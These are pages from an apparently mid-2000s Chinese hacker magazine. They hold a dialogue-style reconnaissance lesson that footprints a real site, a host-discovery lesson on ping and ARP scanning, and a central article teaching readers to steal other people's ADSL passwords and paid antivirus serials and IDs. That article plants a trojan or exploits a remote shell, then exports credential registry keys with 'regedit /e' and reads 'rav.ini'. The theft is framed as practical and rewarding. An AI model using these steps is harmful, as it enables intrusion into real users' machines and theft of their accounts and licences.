最近一帮论坛的菜鸟老是缠着我讲入门之道。万般无奈之下，只好请我的“老师”出马，但前提是：每周为“老师”敲鸡二只。唉！谁叫我有情有义，割舍不下论坛上的兄弟们呢！于是，某个晴朗日子，把兄弟们聚到一起，细听“老师”的“入侵之经”……

老师大发感叹：“俗话说得好，入侵就像打劫！”

学生A小声叽咕道：“这是哪门子俗话哦……”

老师一瞪眼，说：“意思就是说：网络上的入侵如同现实中抢银行一样，有着非常类似的原理和方法。”

学生B说道：“哦？入侵也有原理么？”

“那当然！”老师一挥手。“安全方面的原理有很多的，比如著名的‘木桶’原理：关于入侵方面，安全专家们把网络上入侵的手段和现实中的类似事物相对比，进行了归纳总结，也提取出了图1所示的经典入侵模式图，请看。”

学生C自言自语道：“看起来没什么大不了嘛。”

“错”，老师说道：“别小看了图1，唯物主义一再教导我们理论来自实践，又可以反过来指导实践，正确的理论可以帮助人们改造自然，战胜自然！”（编者：错，大自然是不可战胜的，我们人类只能了解自然规律并为我所用）

黑客X档案2003 2004年合订本(下册)

54

## 小鸡快跑

“类比一下，就像抢银行首先要知道去的地方有没有银行或者会不会路过运钞车，然后才谈打劫计划。”

学生们很感兴趣的问：“那我们怎么探测入侵目标在什么地方？”

“哈哈”，老师说道，“我们可以伪装成硬件修理工，去公司看设备配置啊；或者绑架网管，逼问一下啊。”

“不会吧！”一阵惊呼。

“好了，言当正传，下面我们来看看技术上踩点的实现吧！”

### 第三节 踩点的实现

#### 1. 踩点的初步

老师问：“现代人上网，离不开什么？”

“GG”，“MM”，“E-Mail”……答案无数。

“错，其实我们离不开的是搜索引擎。”老师说道。

“google和baidu这两个强大的搜索引擎，改变了我们的工作和学习方式，它帮助我们在浩如烟海的网络信息面前，迅速的找到需要的信息。”

“那我们在踩点的时候也离不开它们了？”

“对，那是当然。我们今天就来踩踩《黑客X档案》的站点吧！”老师继续说，“在浏览器上输入www.google.com，然后在搜索框里面输入‘黑客x档案’，点击‘搜索’，就会得到图2的信息。”


图2

“哇！显示有17，400个符合查询的结果！”学生们叫道。

“是的。不过还好，最匹配的结果会在前面，而且第一个结果就是我们想要的——www.hackerxfiles.net。”

从google上得到的其他一些信息也很重要，如果是个大公司，可能有很多的相关网站和可利用信息。这里我们也可得知《X档案》论坛使用的BBS信息和版本，大家可以仔细看看，这里就先不说了，我们直接打开《X档案》的网页，看看有什么信息可以收集。

## 小鸡快跑

踩点，尽可能多的收集信息吧。”


“从google得到了域名，接下来我们想办法得到网站真正的IP吧。”

“域名？”

“对，我们上网，一般都只记网站的域名，如《X档案》的www.hackerxfiles.net和网易的www.163.com。”老师说。“如果我们去记住那些网站的IP，可能我们的大脑就什么都都记了。”

“那为何在浏览器中直接输入www.hackerxfiles.net或www.163.com，我们就可直接访问该网站了呢？”学生A问到。

“那是因为浏览器会把我们输入的域名转换成真正的IP地址，然后去访问IP地址。这里就会使用到DNS查询了。”

“DNS？”

“域名系统（DNS）是一种分布式数据库，它提供主机名字和IP地址之间的转换。编程实现是利用gethostbyname这个库函数，它接受主机名字返回IP地址。”

“哦？需要编程么？”学生们紧张了。

“不，我们不用亲自编程，有很多现成的工具可以拿来使用。在命令行下，ping对方域名就可获得对方的IP地址，因为ping程序首先是对方的域名通过DNS查询获得IP后才ping对方真正的IP地址。比如，我们直接ping《黑客X档案》和163的网站域名，其结果如图4。”


的服务器，以实现负载均衡。而www.hackerxfiles.net只有一个IP，就是说一个服务器。

“哇！《X档案》好穷啊！”

“是啊，大家多买《X档案》吧，就当支持支持他们的网站事业！”

“有了IP，那我们怎么知道对方在网络上和物理上的位置呢？”学生C问道。

“方法有很多，这里笔者推荐萍心IP查询网：http://www.dheart.net/ip/。进入查询网，在IP地址框中输入要查询的值，比如《X档案》的218.30.99.56，然后点击‘查询’，看！结果出来了。如图6。”


“哦，广东广州啊？怎么会在那儿啊？”

“嗯，看来应该是托管的哦。提醒大家，大城市、地方大的商业网站，一般不要去乱动，惹火上身可就不好了。”

“如果懂E文，强烈推荐去http://whois.webhosting.info探测网站的信息。”老师继续说道。

“哦？效果怎样呢？”

“在查询框中输入网站IP或域名，就可得到详细的网站注册信息。比如，我们在whois网站中探测《黑客X档案》的网站信息，得到的结果如图7。”

“哎呀，英文不好，看不懂啊”，学生D说道。“那我稍微给大家翻译一下，前两列指明了网站的IP地址和所在国家，接下来是注册公司和注册的期限从2003年6月5日到2009年5月5日，再下面就是一个很关键的信息了，网页的服务器是Microsoft-IIS/5.0，还不用我们亲自探测就得到如此重要信息，真是得来全不费功夫啊！再往下走，是注册机构以及详细的联系方式等，有兴趣的朋友可以研究研究，说不定可以用来骗骗更有

“哦，163网站的IP是202.106.168.103，而《X档案》的IP是218.30.99.56。”学生们叫道。“对，但如果一个域名对应有多个IP地址（这是完全有可能的），我们就不能用ping命令了，可使用nslookup命令来探测，看图5，还是探测163和《X档案》的IP，但结果就不一样了。”“大家看！www.163.com有好多服务器啊，虽然你是简单的在浏览器中输入www.163.com，但会被自动调度当前负载较轻


用的信息哦。”

“哦！这些探测的网点都很有用，但这么多量多，只是想记住探测网点也很麻烦啊。”学生们发愁了。


图 7

“嗯，这里推荐桂林老兵的网络信息综合查询器，界面如图 8。它把刚才介绍的踩点方法全都集成进去了。比如可以由域名转 IP，可以查询对方所在地，可以查询 IP 对应的域名等等。”

“哦，好方便啊！”学生们感叹道。

“对。而且我们可以看到：《X 档案》网站的 IP 上只有它一个网站。有些托管商在一台主机上放置很多个网站，所以如果我们能够攻破一个网站，并完全控制那台主机，也就控制了其他网站。从这点来看，《X 档案》还是仔细做了防范工作的。”


图 8

好了，踩点部分的介绍就初步到这里。下次继续吧，路漫漫兮，我们慢慢来。

（本文提到的网络信息综合查询器光盘有收录）

## 独孤夕客 ——从一次测试谈搞获 ADSL 帐号与瑞星 ID


七月，是广东互联星空用户的“受难日”。我想很多人一定会后悔当初没有修改路由密码，后悔的同时大家都提高了安全意识（那些包年的用户恐怕还不知道自己的 ADSL 帐号早已“遇害”吧），这一点还是可喜的，花钱买个教训吧！只是使很多人变得盲目机械起来，我的很多朋友都投入到这股“刷 Q 币”热潮中，看！现在还有人在积极扫描路由呢！

独孤夕客：小保，小帅跑哪去了？

保命要紧：他啊！又去扫描路由找 ADSL 了。现在不是不能充值了吗？他怎么还这么积极啊！

我是智银圣：都是应试教育惹的祸啊！他都习惯做机械运动了。唉，市风日下！

独孤夕客：这也不能怪他。网上盗 ADSL 帐号和密码的动画教程大部分都是入侵没有修改原始密码的路由器，然后从路由器中获取 ADSL 的帐户和密码，原理和方法都很简单，但却有很多人热衷于此。成天不停地扫路由找密码，每次重复着机械的动作。这是我最不愿意看到的，可怜的小帅也惨遭毒害。我们学习技术不是为了一味地用同一种方式找帐号与密码，既然我们已经学会了通过路由原始密码获取账户的方式，就应该举一反三再想想其他方式。

保命要紧：对啊！我也这样想，我想大哥还是以毒攻毒吧！你要是想出了其他办法，他们不知道还可用不同的方式寻找密码吗？

独孤夕客：有这种啊！没办法，小智你去把小帅找回来，我们一起讨论一下，我把整个过程都写出来，以让大家学会这种获取密码的思路。

（小帅登场……）

帅惊动了党：干嘛啊你们？我今天又找到了几个 ADSL 帐号密码，可都给别人抢先了，明天得赶早才行。

我是智银圣：别吵了，我们开始吧！

独孤夕客：小帅，你知道广东电信 ADSL 用户用最多的上网拨号软件是什么？

帅惊动了党：这个啊？我只知道 XX 路由器的原始密码，嘿嘿！

独孤夕客：大部分电信的 ADSL 用户上网使用的拨号软件都是 VnetClient，特别是广东和广西的用户。我们这次测试的目标就是通过它找出 ADSL 的帐号和密码。小保先查一下 VnetClient 的相关资料。

保命要紧：好的，下面给大家介绍一下这款拨号软件。

VnetClient “网络快车”客户端软件（以下简称“网络快车”）是由广东省电信有限公司开发的新一代宽、窄带集成拨号软件，其主要功能是在现有的 Windows 操作系统环境下提供宽带和窄带拨号功能，同时在该客户端中为用户提供部分增值服务内容。本系统在充分考虑了用户使用习惯的同时，参考了目前热门软件的安装、卸载、在线升级以及相关系统功能的设计思想。操作简单，用户只要有过其他宽、窄带拨号软件上网的经验，就能轻松上手，尽享上网冲浪的乐趣。

我是智银圣：我想起来了，《黑客 X 档案》上说过如何找到 Internet 拨号软件的用

## 小鸡快跑

户和密码方法。把VnetClient的配置文件下载回来不就OK了？

帅得惊动了党：可以吗？

孤独夕客：有经验的人都试过把ADSL用户的VnetClient整个目录下载到本机上，运行时却没有任何帐号，只是目录下有个名为xxxxxxx(ADSL用户名)@163.gdtime的记录文件。除了能知道用户名之外，也没什么用。不像其他拨号软件，只要下个配置文件就能找到密码。当然，只要肯努力，密码是肯定能找到的，下面我们就先在自己机子上试试！

### 1. 安装VnetClient拨号软件

添加一个帐号，我就用我自己的ADSL帐号试试，我是成都电信的ADSL，用VnetClient来拨号上网感觉还不错（图1）。

我是智银圣：这个软件真的挺人性化的。然后呢？


孤独夕客：然后到VnetClient的安装目录，找找有什么可以利用的文件。发现一个RegFile.ini注册表的配置文件。用记事本打开RegFile.ini文件，内容如下：

```
REGEDIT4

[HKEY_LOCAL_MACHINE\SOFTWARE\Shilingtong\Gnet_pppoe2]
[HKEY_LOCAL_MACHINE\SOFTWARE\Shilingtong\Gnet_pppoe2\systemset]
......
```

帅得惊动了党：这个有什么用啊？

我是智银圣：你扫扫盲吧！注册表都不知道，软件的安装信息、帐户密码什么的都会记录在注册表里。

孤独夕客：我也是这么想的。执行“开始→运行”，在弹出窗口中输入regedit后回车，打开注册表编辑器。

在注册表中打开上面提到的键值，把“Shilingtong”整个导出，这里我保存为vnet.reg。

接着将VnetClient卸载掉，再安装上。运行时不用添加用户，此时VnetClient拨号软件上的用户是空的。双击vnet.reg将注册表导入（图2）。


保命要紧：还可以先打开注册表编辑器，然后点击“文件→导入”将这个文件导入。

孤独夕客：对！打开VnetClient看看，多了个用户，和刚才我添加的那个帐号一样，现在我们可以点击“帐号管理”，在“帐号名”处双击（图3），此时会弹出“编辑帐号”的对话框（图4）。


下一步不用我说，你们也会用星号密码查看器查看密码了吧！

### 2. 查看密码

孤独夕客：至此，测试完成！只要我们先在自己的机器上安装VnetClient，然后将远程机器上的HKEY_LOCAL_MACHINE\SOFTWARE\Shilingtong\键导出，再导入自己的机器，用密码查看器就可获得别人的ADSL帐户和密码（图5）。

保命要紧：看来也不难嘛！

帅得惊动了党：这么说只要能下载对方的这个注册.dec文件，就能获取ADSL帐号密码了？那么要怎样才能获得对方的注册表文件呢？

我是智银圣：如果有管理员帐号和密码的话，打开注册表编辑器后，可以通过“文件→连接网络注册表”和远程主机（嘿嘿，也就是肉鸡）建立连接，这和操作自己机器的注册表一样。


孤独夕客：是的。不过我在实验中发现这种方式并不理想，说实话，我试了几台都没成功，你们可以再试试看。下面我们看看实际入侵！


孤独夕客：当然，这只是本地测试的结果，我们还得让它来经历实例的考验。为了照顾一下新手，我下面举两个入侵实例给大家。当然，除此之外一定还会有很多办法，大家不要局限于一种框架中，特别是新手一定要勤思考！

帅得惊动了党：期待（外加流口水）！

### 1. 配合木马获取

孤独夕客：我找到一台中了木马的广东ADSL用户，下面来试验一下。我用的是黑洞2004 915演示版，关于用什么方法让对方中木马，就要看你自己的本事了，可以是溢出或漏洞口令上传执行、网页木马，或者“光明正大”的捆绑（不会的朋友可参考《黑客X档案》上的相关文章）。当对方中木马后，我以黑洞2004 915演示版为例（可到http://www.138soft.org/soft.htm下载），先打开“进程管理”看看对方的进程，如图6。


## 小鸡快跑

帅得惊动了党：木马是吗？我也会，只要有时间，我给大家开专题讲座啊！我的口头禅是：给我一支烟就能将整个地球点燃（忠实烟民），给我一匹“马”，我就能……

保命要紧：大哥别理他，我们继续！

独孤夕客：如图 6 所示，发现有 VnetClient 进程，说明对方是通过 VnetClient 拨号上网的。当然你可以用黑洞的远程注册表导出那个键，操作和在自己电脑上一样，这里就不说了。现在教大家一种在命令提示符下导出注册表分支的方法。

帅得惊动了党：为什么要学这个呢？

保命要紧：列宁同志不是说过吗？要学习学习再学习。

独孤夕客：待会儿一直往下你就知道了。点击黑洞的“字符终端”，输入如下命令：

```
regedit /e test.reg HKEY_LOCAL_MACHINE\SOFTWARE\Shilingtong\
```

这里给大家解释一下：在 DOS 下导出注册表分支的命令格式是：
`Rregedit[/L:system][/R:user]/E filename [regpath]`
其中，“/L:system”是指定 system.dat 的路径；“/R:user”是指定 user.dat 的路径，如果不说明，系统就会在默认的路径下找；“/E filename”是导出注册表分支的文件名；“regpath1”是要导出的注册表分支。如我们要导出注册表 HKEY_LOCAL_MACHINE\SOFTWARE\Shilingtong分支到test.reg文件里，命令就是（图7）：

```
regedit /e test.reg HKEY_LOCAL_MACHINE\SOFTWARE\Shilingtong
```


完成后，打开黑洞的“文件管理”，找到C:\WINDOWS\system32\这个地方，将test.reg 这个文件下载到自己的机器上（直接拖动就可以了）。还可点击“字符终端”左上角的“保存”将上面的内容都保存下来，再整理一下保存为reg 文件就可以了。不会的朋友可以参考一下自己安装的VnetClient，导出相同的分支。将保存好的test.reg 文件导入注册表，再运行VnetClient 后结果如图8。


看到没有？我原来添加的帐户上多出了一个帐户：yfyxxxx@163.gd，大家一看就知道是广东那边的 ADSL 帐号，用上面讲过的方法我们很容易就能找到密码。到广东互联星空登陆看看，如图9。


帅得惊动了党：让我来试试。成功了！这样一来，就不用和那么多人抢有弱口令路由的ADSL帐号了。YEAH！

我是智银圣：怎么种木马啊？

独孤夕客：至于怎么让别人中木马，得看你自己的本事了（不在本文讨论范围内）。当然，这种方法有个不好的地方：用木马很容易被杀毒软件查杀。通过上面讲的在 DOS 下导出注册表，聪明的你一定会想到可以溢出远程主机得到一个系统Shell，再用上面的方法导出注册表。《黑客X档案》之前也讲过许多获得系统权限的Shell 的方法。其实说白了就是获得一个远程的命令提示符，获得之后，我想看过上面用字符终端导出注册表的方法，大家也就明白该怎么做了吧！

## 2.Shell 下获取

独孤夕客：如图 10，我们选择利用漏洞溢出一台远程主机，用 NC 连接上去。然后在 CMD 下导出注册表。命令如下：

```
regedit /e test.reg HKEY_LOCAL_MACHINE\SOFTWARE\Shilingtong
```

再用 type 命令显示出来：type test.reg


帅得惊动了党（若有所思）：哦！

独孤夕客：以下是本人的经验之谈。在Shell 下使用 regedit 命令时会常常出现如下情况：

```
C:\WINDOWS\system32>regedit /e rising.reg HKEY_LOCAL_MACHINE\SOFTWARE\rising
regedit /e rising.reg HKEY_LOCAL_MACHINE\SOFTWARE\rising

C:\WINDOWS\system32>type rising.reg
type rising.reg
系统找不到指定的文件。
```

不用管它，多试几次就行了。成功之后，点击右键，选择“全选”，然后复制下来（如果不行，就在 CMD 的标题栏上点击右键，先选择“编辑”→“全选”，然后选择“编辑”→“复制”进行复制）。接下来和前面要做的事一样了。

帅得惊动了党：那好，我马上就去上网，BB！

我是智银圣：瓜娃子，还有下文呢！

帅得惊动了党：下文？

保命要紧：对啊，要不怎么叫一石二鸟啊！

独孤夕客：好，我们开始第二鸟之旅吧！

独孤夕客：杀毒软件的用处不用我提了吧！我想很多人也和我一样买不起正版货。但老是用破解版的杀毒软件总有许多不爽的地方，比如升级要等待有新的破解版或者新的升级器。当然，像我这样一直都在为吃饭而担忧的穷学生，买正版好像也不符合实际。

我是智银圣：对！我包月的瑞星 2004正版序列号和 ID 用着挺爽的，不过现在过期了，但也不想再掏钱买。现在我的瑞星只能查毒，非得续费才能杀毒，痛苦啊！

保命要紧：这“第二鸟”是要弄序列号和ID？

独孤夕客：对的。通过上面的学习，我想大家也明白了，只要从自己的爱机上找到序列号和ID，就可远程入侵从别的机器上找到。好吧！我们开始，首先研究一下自己机器上瑞星的安装文件，也没发现什么可疑文件。再看一下注册表，嘿嘿，发现了ID，竟然是明文存放在注册表里，如图11。


帅得惊动了党：哪里？让我看看，瑞星还真不小心啊！

独孤夕客：接下来只要找到序列号就可以了。在网上下载了一个瑞星扫号器，发现扫号器读取的是系统盘\Windows\下的rav.ini文件（Windows 2000的是在winnt\下）。现在我们把小智电脑上的rav.ini复制到我系统盘的windows\下，再用扫号器读取，如图12。


保命要紧：序列号变成小智的了，但ID却仍和原来一样。

独孤夕客：现在要做的事已经很明了，只要在装有瑞星的远程主机上下载rav.ini文件，再将对方注册表的HKEY_LOCAL_MACHINE\SOFTWARE\rising键全部导出（其实只要将HKEY_LOCAL_MACHINE\SOFTWARE\rising\rav键导出也可以看到明文的ID），最后将远程主机的rav.ini文件覆盖本机系统盘\windows\下的rav.ini文件，并导入对方的注册文件。如果你没有装瑞星，也可直接把rav.ini文件复制到本机系统盘的\windows目录下，导出对方注册表时可获得明文ID，用上面的扫号器读取就可获得瑞星的序列号。如果对方是包年的用户，当然你也就成了包年的了。

## 1.配合木马获取

独孤夕客：当对方中了黑洞木马后（当然用其他木马也一样，不过这里用的马儿一定要免杀才行，我们要入侵的一方可是肯定有杀毒软件的哦），我们先看看对方的进程是否安装了瑞星杀毒软件，进程里有RavMon.exe的话就说明安装了。之后打开黑洞的“文件管理”，找到系统盘的windows目录（NT/2000的在WINNT目录下），下载rav.ini文件，如图13。

帅得惊动了党：这个我知道，直接拖动文件到本地就可以了。


独孤夕客：下一步是导出注册表，用黑洞的“字符终端”功能，输入如下命令（图14）：
regedit /e test.reg HKEY_LOCAL_MACHINE\SOFTWARE\rising


点击“保存”，将上面的内容保存下来，然后再整理一下，从Windows Registry Editor Version 5.00开始复制出来，保存为REG文件。如果没有安装瑞星的话，你只需把[HKEY_LOCAL_MACHINE\SOFTWARE\rising\rav]下的"NetID"="xxxxxxxxxxxxx"复制下来即可。

我是智银圣：现在有了这两个文件，序列号和ID都到手了。

## 2.Shell下获取

保命要紧：我想在Shell下面获取也和上面说的差不多吧？

独孤夕客：嗯！我们先用dir命令查看一下对方的C:\windows\rav.ini，看文件是否存在。这一步也就相当于查看对方是否安装了瑞星，然后再用TYPE命令将rav.ini显示出来（图15）：
type c:\windows\rav.ini
这一步完了之后，当然就是导出HKEY_LOCAL_MACHINE\SOFTWARE\rising了。


成功之后，点击鼠标右键，选择“全选”，然后复制下来（如果不行，就在CMD标题栏上点击鼠标右键，先选择“编辑”->“全选”，然后选择“编辑”->“复制”进行复制）。接下来和前面要做的事一样了。用这种方法有个很大的好处：就是不用上传任何程序到远程机器，也不用从对方机器下载任何文件，只要有漏洞，只要可以溢出即可，免去了被杀毒软件发现的危险。

保命要紧：这种方法好，不用为免查杀而烦恼。

独孤夕客：再说一点经验之谈。因为我试了很多次，有一次没注意看对方的版本，把对方的导入注册表后发现是2003版的，不能升级（而且导入注册表并不能升级，所以大家找到序列号和ID之后最好重装）。如下，大家保存时要注意看对方瑞星的版本信息：

```
[HKEY_LOCAL_MACHINE\SOFTWARE\rising\rav]
...
"updatetime"="2003-11-11"
"version"="16.00.10" //像这么旧的版本大家就可以放弃了。
......
```

等我重新用找到的更新日期和版本较新的序列号和ID安装好瑞星后，升级时却出现了提示，如图16。


帅得惊动了党：不成功吗？

独孤夕客：不是啦！没办法，先等等吧！看来用这号的人还真多，应该是公司的用户吧！这样一来也好，不容易被用户发现，等出新版本再更新吧！

我是智银圣：我可不相等，走！小帅，我们自己去世吧！

帅得惊动了党：好的，走了。

## 小鸡快跑

（只留下孤独夕客一人傻傻等待……）
等了一天，瑞星终于出了新版本，于是马上抢先点击那可爱的“升级”图标。成功了！又回到了有正版杀毒软件用的“光辉岁月”。如图 17。


没有安装过瑞星的朋友可以到 http://go.rising.com.cn/ 下载瑞星杀毒软件下载版（版本是 16.31），再用上面给大家介绍的方法找到正版序列号和 ID，就可享受正版的待遇了。大家找到可升级的 ID 后，为保护用户的利益，请不要发布在网上。没有完全的自由，也没有完全的共享，所以大家就算要发挥黑客的共享精神、也总得讲个度才行。

# 小格

不过对于 ADSL 帐号，在网上已经很难充值了，想要用的话还要靠自己想办法。通过这些实例，希望大家能找到正版瑞星的可更新 ID，更希望大家在有所“擒获”的同时能举一反三，一石多鸟。（本文提及的以下软件光盘有收录：VnetClient、黑洞 2004 915 演示版、瑞星杀毒器）

# 入侵经典模式图之二
# 存在性扫描

王炜 / ww0830

上节课给同学们讲了踩点大法，本期给大家讲述存在性扫描。

啪！老师惊堂木一拍，扇子一场，说道：“话说上回，我们说入侵经典模式图博大精深，无所不能！”

学生们大汗 -_-^

“开个玩笑，开个玩笑。”老师收起扇子，整整衣冠，然后正色说道：“我们再看看那个图吧。”如图 1。


“大家看，上次我们着重讲了图中的‘踩点’部分，即判断我们的人侵目标在网络上是什么地方，在物理上是什么地方，有什么相关资料等。”老师继续说，“除了踩点，上次还对‘得到用户 E - mail’和‘得到域名或 IP 信息’部分有所涉及。”

“嗯！那这次应该进入到扫描部分了吧？”学生们心急的问道。

“呵呵！大家都等不及了啊，那我们立即开始这段感情吧！”

“啊？”台下大惊。

“不不不，开始这段学习！”

吧？”学生们心急的问道。

## 一、为什么要扫描

“还是先作一下对比吧，大家想想，打劫的人经过了踩点，知道了哪几有银行或哪几会路过运钞车，那接下来他们要作什么呢？”

“诉之暴力，抢呀！”学生 A 说道。

“不对，他们还不知道确切的上、下班时间、运钞车的经过时间。我想还应该继续收集信息，制定计划吧！”学生 B 想了想说道。

“非常正确！”老师满意的说道，“抢劫确定了目标后，就要对保安人员的配置、什么时候换班和可能存在的弱点等相关信息进行收集，以决定什么时候下手，怎么下手，怎么撤退等。”

老师喝了口水，继续说：“网络上的人侵也是这样，选定目标后，需要对目标进行全方位的探测，比如收集目标开放的端口、对应的服务、拥有的帐号、相关的网络资源等，然后才谈得上进一步制定人侵计划。”

“哦！”学生们说到，“听起来范围好广啊。”

“对，用人侵术语来讲，这就是扫描。”老师回答道，“任何基于目标信息的探测，都可以称为扫描。但在这里，我们先讨论存在性扫描吧！”

## 二、最关注的是目标的三点

“存在性扫描？”学生们不解的问。

“对，就像抢银行一样，至少要知道银行保险库里是否有钱柜，网络上的人侵也要知道目标主机是否在网络上。如果银行根本没钱，或目标根本就不在网络上，那谈入侵，岂不是等于零。”

“那存在性扫描的目的是什么呢？”菜鸟们问道。

老师又喝了一口水（土豆：ww0830 写文章的时候肯定很渴 -_-），说道：“存在性扫描的目标，是准确判断出对方主机当前是否在网络上。”

“哦，明白了，听起来好像很简单也。”菜鸟 A 说。

老师笑道：“应该说是目标很清楚，但真的实现起来，可能还是很困难的。”

## 三、最关注的是目标的三点

### 1. 探测在线主机——Ping

老师说：“我们先看看第一种存在性扫描的方式——Ping。”

“Ping？好像使用过吧？”学生们疑惑的问。

“嗯！上次我们使用它作 DNS 查询，而这里就涉及到更多、更详细的内容了。我们先看看它的原理吧！”老师边说边在黑板上比划：“Ping 使用 ICMP 协议，ICMP 是 Internet 控制报文协议的缩写，其格式如图 2。”


## 小鸡快跑

学生们紧张的看着图2，大气也不敢出。

老师继续说：“格式图中最重要的是8位类型段和8位代码段。ICMP有很多类型值和代码值，组合起来就可以表示不同的含义。”

“哦，大概看明白了。”学生们长出了一口气。

“这里有点枯燥，过了就好。ICMP最常用的组合有两种，一种是类型为8、代码为0的组合，表示‘回响请求’报文；另一种是类型为0、代码为0的组合，表示‘回响应答’报文。”

“ping就是发送和接受这两种报文吗？”学生A问。

“非常正确！ping就是给远程主机发送‘回响请求’报文，如果那台主机是不在线的，就不会有响应；而如果是在线的，那么就会回应‘回响应答’报文。通过这样的方法，我们可以初步区分在线和不在线的主机。示意图如图3。”


“如果大家想知道其编程的实现，可以在Google和Baidu（百度）里搜索一下，不会让你们失望的。一般来说，都是使用两种方法，一是使用原始套接字RawSocket来构造ICMP报文；二是利用Winpcap开发包来构造报文。当然，我说的是Windows环境下的开发。”老师说道。

“听到编程序就晕，不懂编程可以用吗？”学生们问道。

```
Pinging 192.168.1.2 with 32 bytes of data:

Reply from 192.168.1.2: bytes=32 time<1ms TTL=128
Reply from 192.168.1.2: bytes=32 time<1ms TTL=128
Reply from 192.168.1.2: bytes=32 time<1ms TTL=128
Reply from 192.168.1.2: bytes=32 time<1ms TTL=128

Ping statistics for 192.168.1.2:
    Packets: Sent = 4, Received = 4, Lost = 0 (0% loss),
Approximate round trip times in milli-seconds:
    Minimum = 0ms, Maximum = 0ms, Average = 0ms

C:\>ping 192.168.3.1

Pinging 192.168.3.1 with 32 bytes of data:

Request timed out.
Request timed out.
Request timed out.
Request timed out.

Ping statistics for 192.168.3.1:
    Packets: Sent = 4, Received = 0, Lost = 4 (100% loss),
Approximate round trip times in milli-seconds:
    Minimum = 0ms, Maximum = 0ms, Average = 0ms
```


后给我们输入ping 你要探测主机的ip地址，就会得到图4所示的探测结果。”

老师指着图4说：“可以看出，192.168.3.132的主机在线，所以给我们回应了ping请求；而192.168.3.1或者不在线，或者故意不回应我们的ping请求，所以显示的是‘请求超时’。”

学生们点点头。

“这里再稍微解释一下回应的消息含义。”老师说道。

```
Reply from 192.168.3.132:
bytes=32 time<10ms TTL=128
```

其中，“Reply from 192.168.3.132”表示回应ping的OP地址是192.168.3.132；“bytes=32”表示回应报文的大小，这里是32字节；“time<10ms”表示回应所花费的时间，小于10毫秒，这是非常快的；“TTL=128”，TTL是生存时间，报文经过一个路由器就减1，如果减到0就会被抛弃，这里是128，看起来还可以经过足够多的路由。

“哦，这下清楚了！”学生们说道，“但似乎每次只能ping一台机器，也太不方便了吧。”

“对！我们就利用工具吧，‘ping war 2.0’能同时ping多台机器，而且可以自动记录每台机器的回应信息。我们运行它，然后选定要探测的IP范围，这里我选的是192.168.3.142到192.168.3.151，然后点‘start ping’。看！对方是否回应的结果就出来了（图5），有4台机器回应。不用一台台的输入ping和IP地址。哈哈，爽啊！”老师说道。


“哦，这下方便了！”学生们欢呼到，“是不是使用这种方法就可以完全判断对方在线了呢？”

“NO！”老师说道，“因为被别人轻易探测到的话，你的机器就不安全，所以防火墙一般都自动禁止了别人对机器的ICMP探测。比如安装了天网防火墙后，默认就有‘防止别人用ping命令探测’被选中，如图6。”

“哦。”

“这样设置规则以后，如果别人用ping命令来探测你的机器，那么天网就会自动阻断报警，并给出相应的IP地址。而别人得到的回应信息也是超时的，那就不知道你是否在线，这样就隔绝了ping的探测，如图7。”


大家都郁闷了，“那对方有了防火墙怎么办呢？就不能探测他是否在线吗？”

“不，我们还是有办法的，比如ARP探测。”

### 2. 另一种存在性扫描——ARP探测

“什么是ARP探测呢？”学生们问到。

“ARP探测就是利用ARP协议来探测对方的机器是否在线的方法。”

“不会被防火墙阻断吗？”学生们担心的说。

“哈哈，防火墙可以禁止ICMP的ping，但绝不能禁止ARP！”老师得意的说，“因为禁止了ARP，用户就不能上网了！”

“哦，什么东西这么神奇啊？”学生A感兴趣的问。

“这就要从协议说起了。ARP协议是将IP地址转换为MAC地址的协议。”老师解释道，“在一个局域网中，要传输数据，必须要先有对方的MAC地址。甲为了获得乙的MAC地址，就需要发送一个ARP广播报文，乙收到ARP报文后，必须回复一个ARP响应，把自己的MAC地址告诉甲，之后才能开始正常的数据传输过程，如图8。”

“所以为了上网，乙必须要回应其他机器发出的ARP请求。从这一点出发，我们就可利用了。”


## 小鸡快跑


甲请求乙的MAC地址
乙回应自己的MAC地址
主机甲 <---------------------------------> 主机乙
开始真正数据传输

图8

“哦！”学生们恍然大悟，“明白了！我们就故意发送一个ARP请求报文，请求探测的主机的MAC地址，如果对方在线，一定会回应一个ARP请求的。”

“对，就是这样的，示意图如图9。”


“ARP协议是第二层的协议，所以ARP探测程序必须要在数据链路层上实现。”看见大家对编程都没有兴趣，老师赶紧说，“还是谈大家感兴趣的工具吧——T_ARP.exe，注意在使用前需要安装Winpcap。程序的使用方法是：T_ARP.exe -m 起始ip 终止ip，这次我们也探测从192.168.3.142到192.168.3.151的范围，结果如图10。程序的输出列出了有响应的主机对应的IP地址和MAC地址。”

```
WinPcap Version: 2.2
No WinPcap Installed!
C:\>T_ARP.exe -m 192.168.3.142 192.168.3.151
Select the number of the adapter to open: 2

1.\Device\Packet_{...}
2.\Device\NPP_{...}
...

[192.168.3.142] is at 00-00-0A-4D-5B-27
[192.168.3.143] is at 00-08-5A-6B-7B-2B
[192.168.3.144] is at 00-11-2F-3D-2E-4C
[192.168.3.145] is at 00-11-2F-91-4E-0B
[192.168.3.146] is at 00-11-2F-3D-2E-6A
[192.168.3.147] is at 00-11-2F-91-4B-4A
[192.168.3.148] is at 00-11-2F-91-4B-78
[192.168.3.149] is at 00-11-2F-91-4B-CF
[192.168.3.151] is at 00-01-80-47-2B-97

55 packets received, 0 packets lost
F:\work>ARPfindWinCap.exe
```

图10

“哦？好像比ping 的结果要多一些呢？”学生B说道。

“是啊，这次发现从192.168.3.142 - 192.168.3.151有7台主机是在线的，比刚才用ping war 探测多发现了三台。我想那三台机器一定是打开了防火墙，并且禁止了ICMP请求回响。”老师说道。

“乌拉！”学生们欢呼到，“那这种方法岂不是百分之百的可以探测正确么？”

“对，正确率有保证，但也有不足。”老师回答。

“什么不足呢？”学生们不解的问。

“要使用ARP探测，探测机必须和目标机是在同一个局域网中。这是因为，只有对同一个局域网内部传输数据前才会发送ARP请求；而且也只有对同一个局域网的ARP请求，才会发出回应。”

“哦，”学生们遗憾的感叹到，“真是没有百分之百的完美技术啊。”

“那是当然，而且攻防本身就是一个水涨船高的过程，偶尔攻会占上风，但防马上就会跟上去了。”

“如果不是同一局域网，对方也禁止ICMP，那么怎样探测对方是否在线呢？是不是就没有办法了呢？”菜鸟C问道。

“不，我们还是有方法的，比如探测对方的端口信息，如果对方的端口有响应，那当然可以断定对方在线。这个放在下次端口探测的部分一起讲吧。”

下节课见，同学们！

（本文提及的以下软件光盘有收录：T_ARP.exe、Winpcap、ping war 2.0）


# 密码防盗全攻略 -showlife[E.S.T]

